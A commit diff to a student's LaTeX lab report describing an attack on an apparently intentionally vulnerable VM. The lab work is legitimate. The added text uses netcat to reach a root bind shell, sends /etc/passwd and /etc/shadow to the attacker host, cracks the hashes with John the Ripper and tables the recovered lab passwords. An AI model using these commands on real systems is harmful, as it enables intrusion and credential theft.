

Before and after one commit to ldcas-uc3m/CE-Lab4, a LaTeX document (report/report.tex, which reads report/parts/1-main.tex): part of page 4 of 4 before the commit and two parts of pages 3 and 4 of 4 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
finish activity 5

```diff
--- a/report/parts/1-main.tex
+++ b/report/parts/1-main.tex
@@ -93,16 +93,25 @@
     % Activity 5
     \item By using \texttt{nc 192.168.56.3 1524} you can connect to the afformentioned Bind Shell, logging in as root.\newline
 
-    In the folder \texttt{/home/msfadmin/vulnerable} you can find a lot of keys and passwords, as shown here:
+    In the folder \texttt{/home/msfadmin/vulnerable}, you can find the configuration files and scripts for some of the applications, some including passwords.\\
+    I was only able to find, in \texttt{samba/3.0.6/jduck-build-stuff.tar.gz/samba-common.config}, the pasword \texttt{guest:smbpasswd}.\newline
+
+    On the \texttt{/etc/paswd} and \texttt{/etc/shadow} files you can find most of the passwords of a Linux system.\\
+    In order to transfer those files, I used \texttt{netcat -l 9899 > [file]} on the attacker machine and \texttt{nc -w 2 192.168.56.4 9899 < [file]} on the target machine.\newline
+    By using JohnTheRipper (the \texttt{$1$} showed MD5 format), I was able to crack the following ones:
+
+
     \begin{table}[!h]
         \centering
-        \begin{tabular}{|c|c|c|}
+        \begin{tabular}{|c|c|c|c|}
         \hline
-        \textbf{Location} & \textbf{Password} & \textbf{Description} \\ \hline
-        samba/3.0.6/jduck-build-stuff.tar.gz/samba-common.config & guest:smbpasswd &                      \\ \hline
-                          &                   &                      \\ \hline
-                          &                   &                      \\ \hline
-                          &                   &                      \\ \hline
+        \textbf{User}     & \textbf{Password}  & \textbf{Program}             & \textbf{Description}     \\ \hline
+        \texttt{sys}      & \texttt{batman}    & \texttt{/dev}                &  sys                     \\ \hline
+        \texttt{klog}     & \texttt{123456789} & \texttt{/home/klog}          &  -                       \\ \hline
+        \texttt{msfadmin} & \texttt{msfadmin}  & \texttt{/home/msfadmin}      & msfadmin                 \\ \hline
+        \texttt{postgres} & \texttt{postgres}  & \texttt{/var/lib/postgresql} & PostgreSQL administrator \\ \hline
+        \texttt{user}     & \texttt{user}      & \texttt{/home/user}          & just a user 111          \\ \hline
+        \texttt{service}  & \texttt{service}   & \texttt{/home/service}       & -                        \\ \hline
         \end{tabular}
     \end{table}
 
```
Also changed, not shown: README.md, 1 other file.
